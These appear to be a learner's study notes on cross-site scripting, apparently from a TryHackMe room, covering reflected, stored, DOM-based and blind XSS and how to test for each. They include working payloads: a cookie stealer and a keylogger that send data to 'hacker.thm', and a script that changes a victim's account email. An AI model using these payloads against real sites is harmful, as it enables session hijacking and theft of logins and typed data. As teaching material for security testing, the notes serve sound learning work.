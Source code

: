 ## What is it?
Where malicious JavaScript gets injected into a web application with the intention of being executed by other users
# XSS Payloads:
The payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, the modification is the changes to the code we need to make it execute as every scenario is different
## Checking for XXS
Demonstrate that you can achieve XSS on a website by causing an alert box to pop up on the page with a string of text, for example:
```
<script>alert('1');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### **Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic:
calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.
# Types of XSS
## Reflected XSS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

Can be used per this scenario:
![8e3bffe500771c03366de569c3565058.png](Screenshots/8e3bffe500771c03366de569c3565058.png)
### **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### **How to test for Reflected XSS:**
You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Example
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
### How to Test for Stored XSS:
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

- Comments on a blog
- User profile information  
- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## DOM Based XSS
### What is DOM?
DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![24a54ac532b5820bf0ffdddf00ab2247.png](Screenshots/24a54ac532b5820bf0ffdddf00ab2247.png)
### Exploiting the DOM
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.
#### Example
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
### How to Test
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

Look for `eval()` JavaScript method being used in source code.
## Blind XSS
Your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Example
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.
### How to Test:
you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more
